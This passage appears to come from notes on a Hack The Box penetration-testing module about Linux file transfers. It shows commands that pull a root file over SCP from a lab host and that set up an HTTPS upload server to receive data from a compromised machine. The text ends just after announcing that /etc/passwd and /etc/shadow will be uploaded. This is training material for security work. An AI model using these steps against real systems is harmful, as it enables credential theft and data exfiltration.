 ```shell
shakir0x00@htb[/htb]$ cat <&3
```


#### Linux - Downloading Files Using SCP

```shell-session
shakir0x00@htb[/htb]$ scp plaintext@192.168.49.128:/root/myroot.txt . 
```

# Upload Operations

#### Pwnbox - Start Web Server

```shell-session
shakir0x00@htb[/htb]$ sudo python3 -m pip install --user uploadserver

Collecting uploadserver
  Using cached uploadserver-2.0.1-py3-none-any.whl (6.9 kB)
Installing collected packages: uploadserver
Successfully installed uploadserver-2.0.1
```

Now we need to create a certificate. In this example, we are using a self-signed certificate.

#### Pwnbox - Create a Self-Signed Certificate

```shell-session
shakir0x00@htb[/htb]$ openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

Generating a RSA private key
................................................................................+++++
.......+++++
writing new private key to 'server.pem'
-----
```

The webserver should not host the certificate. We recommend creating a new directory to host the file for our webserver.

#### Pwnbox - Start Web Server

```shell-session
shakir0x00@htb[/htb]$ mkdir https && cd https
```

```shell-session
shakir0x00@htb[/htb]$ sudo python3 -m uploadserver 443 --server-certificate ~/server.pem

File upload available at /upload
Serving HTTPS on 0.0.0.0 port 443 (https://0.0.0.0:443/) ...
```

Now from our compromised machine, let's upload the `/etc/passwd` and `/etc/shadow` files.
